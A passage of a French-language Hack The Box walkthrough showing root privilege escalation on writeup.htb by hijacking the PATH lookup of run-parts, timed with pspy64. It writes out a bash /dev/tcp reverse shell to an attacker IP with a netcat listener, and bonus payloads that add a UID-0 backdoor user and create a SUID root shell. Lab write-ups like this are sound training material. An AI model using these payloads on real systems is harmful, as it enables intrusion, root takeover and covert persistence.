Pour gérer cette contrainte temporelle de manière fiable, tu vas utiliser une organisation très précise du travail avec **Tilix et un workspace à 4 fenêtres**, comme décrit dans la recette .



### Organisation des 4 fenêtres Tilix

Chaque fenêtre a un rôle bien défini. Cette organisation te permet d’agir **rapidement, sans erreur et au bon moment**.

#### Fenêtre 1 — Kali Linux : écoute du reverse shell

Sur ta machine Kali, prépare l’écoute réseau qui recevra le reverse shell root :

```bash
nc -lvnp 4444
```

Cette fenêtre reste **ouverte et en attente** du reverse shell.

#### Fenêtre 2 — jkr@writeup.htb : préparation du faux `run-parts`

Dans cette fenêtre, tu vas **préparer** le binaire piégé, **sans encore le copier**.

1. Place-toi dans `/usr/local` :

```bash
cd /usr/local
```

1. Crée un script de reverse shell (par exemple `reverse_shell`) :

```bash
nano reverse_shell
```

1. Ajoute le contenu suivant (adapte l’IP à celle de ta machine Kali) :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.x.x/4444 0>&1
```

1. Rends le script exécutable :

```bash
chmod +x reverse_shell
```

1. **Prépare** la commande de copie vers `/usr/local/bin/run-parts`, **mais ne l’exécute pas encore** :

```bash
cp reverse_shell /usr/local/bin/run-parts
```

👉 À ce stade, **tu n’appuies pas sur `[Entrée]`**. La commande est prête.

#### Fenêtre 3 — jkr@writeup.htb : surveillance avec pspy64

Dans cette fenêtre, lance **pspy64** pour surveiller l’activité système en temps réel :

```bash
./pspy64
```

Cette fenêtre est **ta référence temporelle**.
 Tu attends explicitement l’apparition de l’exécution de **cleanup.pl**.

#### Fenêtre 4 — jkr@writeup.htb : connexion SSH prête à être lancée

Prépare ici une nouvelle connexion SSH, **sans appuyer sur `[Entrée]`** :

```bash
ssh jkr@writeup.htb
```

Cette session servira à **déclencher indirectement l’exécution du script root vulnérable**, qui appellera `run-parts` sans chemin absolu.

### Déclenchement synchronisé de l’exploitation

Tout repose maintenant sur le **timing**.

1. Surveille attentivement la **fenêtre 3**.
2. Dès que **pspy64 affiche l’exécution de `cleanup.pl`** :
   - Appuie **immédiatement sur Entrée dans la fenêtre 2** pour copier le faux `run-parts`.
   - **Juste après**, appuie sur **Entrée dans la fenêtre 4** pour lancer la connexion SSH.

L’objectif est clair :
 👉 **placer le faux `run-parts` dans `/usr/local/bin` avant que le script root ne l’appelle**, et **dans la minute suivant le nettoyage**.

### Résultat obtenu

Si la synchronisation est correcte :

- Le script root appelle `run-parts` **sans chemin absolu**
- Le binaire piégé dans `/usr/local/bin` est exécuté
- Un **reverse shell root** arrive dans la **fenêtre 1**

Vérifie avec `whoami` :

```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB]
└─$ nc -lvnp 4444      

listening on [any] 4444 ...
connect to [10.10.x.x] from (UNKNOWN) [10.129.x.x] 42754
bash: cannot set terminal process group (3271): Inappropriate ioctl for device
bash: no job control in this shell
root@writeup:/# whoami
whoami
root

```

Tu dois obtenir :

```bash
root
```

### Root.txt

Récupère le flag final :

```bash
root@writeup:/# cat /root/root.txt
cat /root/root.txt
6327xxxxxxxxxxxxxxxxxxxxxxxxf1a8
root@writeup:/#
```

## Conclusion

Cette machine **writeup.htb** illustre parfaitement l’importance d’une **énumération méthodique** et d’une **bonne compréhension des mécanismes Linux** dans un contexte **CTF Hack The Box**.
 À partir d’un service web basé sur **CMS Made Simple**, tu obtiens un premier accès grâce à une vulnérabilité connue, avant de progresser vers une **escalade de privilèges root** fondée sur un détournement du `PATH`.

La phase d’escalade met en évidence un point clé souvent sous-estimé : l’observation du comportement système. L’utilisation de **pspy64** permet ici d’identifier un mécanisme automatique exécuté par root, ouvrant la voie à une exploitation fiable malgré une contrainte temporelle.

Ce walkthrough montre qu’en combinant **rigueur**, **timing** et **méthodologie**, il est possible de transformer une simple mauvaise configuration en accès root complet.
 Une approche reproductible, directement applicable à de nombreux environnements Linux rencontrés en **CTF** comme en **audit de sécurité**.

---

## Bonus — exemples d'autres faux run-parts pour le détournement de PATH

Une fois le détournement de `PATH` fonctionnel, **tout code placé dans le faux `run-parts` est exécuté avec les privilèges root**. Voici quelques exemples classiques de scripts utilisés en CTF pour exploiter ce contexte.

> ⚠️ **Note** : Les exemples suivants illustrent des mécanismes de persistance volontairement présentés **à des fins pédagogiques dans un cadre CTF isolé**. Ils ne doivent pas être reproduits sur des systèmes réels ou en production.

Ces exemples illustrent différentes finalités possibles : preuve d’exécution, récupération d’information sensible ou persistance.

1. **Récupération directe du flag root**

   Exemple minimal permettant de récupérer le flag root sans shell interactif.

   Script run-parts :

   ```bash
   #!/bin/bash
   cat /root/root.txt > /tmp/root.txt
   ```

   Après déclenchement, il suffit de lire le fichier :

   ```bash
   cat /tmp/root.txt
   ```

   C’est l’exemple le plus simple et le plus fréquent en CTF lorsque l’objectif est uniquement la validation du challenge.

   

2. **Création d’un utilisateur avec privilèges root**

   Cet exemple montre comment transformer le détournement de PATH en **accès root persistant**.

   Script run-parts :

   ```bash
   #!/bin/bash 
   useradd -m -p $(openssl passwd -1 "password") -s /bin/bash -o -u 0 jkroot
   ```

   Après exécution :

   ```bash
   su jkroot
   ```

   L’utilisateur `jkroot` possède l’UID 0 et est donc équivalent à root.

   

3. **Création d’un shell SUID root**

   Autre variante classique consistant à créer un binaire SUID permettant d’obtenir un shell root à la demande.

   Script run-parts :

   ```bash
   #!/bin/bash
   cp /bin/bash /bin/ctf
   chmod u+s /bin/ctf 
   ```

   Ensuite :

   ```bash
   /bin/ctf -p
   ```

   Le shell obtenu conserve les privilèges root.

------

Je te laisse le plaisir d’explorer et de mettre en œuvre ces autres pistes de détournement de PATH, l’objectif ici étant surtout de t’avoir montré une méthode fiable et reproductible pour gérer un contexte contraint par le temps.

------


